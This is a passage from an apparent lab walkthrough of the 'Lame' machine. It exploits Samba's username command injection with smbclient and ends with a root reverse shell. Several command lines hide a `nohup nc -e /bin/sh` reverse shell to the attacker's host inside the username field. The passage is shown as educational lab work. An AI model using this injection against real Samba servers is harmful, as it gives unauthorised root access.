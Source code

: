 So basically on Linux, `` ` ` `` are used to execute and put the output
in place, just like `$()`. It seems Samba is allowing that to happen
inside the username. Metasploit is calling `nohup` (which starts the
process outside the current context) and then a payload.

#### smbclient Fails

I'll try this with `smbclient`. I'll start a `nc` listener on 443. I can
connect to the share using `smbclient //10.10.10.3/tmp`. First I tried
specifying a user:



    root@kali# smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
    nohup: ignoring input and redirecting stderr to stdout



At my listener, I get a connection:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.14.24.
    Ncat: Connection from 10.10.14.24:48532.



Unfortunately, it's from my local box. My `bash` is executing the
`` ` ` `` before sending the connection. I'll swap the `"` for `'`:



    root@kali# smbclient //10.10.10.3/tmp -U './=`nohup nc -e /bin/sh 10.10.14.24 443`'
    Enter =`NOHUP NC -E \bin/sh 10.10.14.24 443`'s password:



For some reason, the start of the command is getting capitalized, which
is going to break execution.

#### smbclient success

It turns out there's another way to login over `smbclient`, and that's
used for changing users once connected with the `logon` command (I just
hit enter when prompted for a password):



    smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
    Password: 
    session setup failed: NT_STATUS_IO_TIMEOUT



I get a connection from Lame with a root shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:55410.
    ‍id
    uid=0(root) gid=0(root)
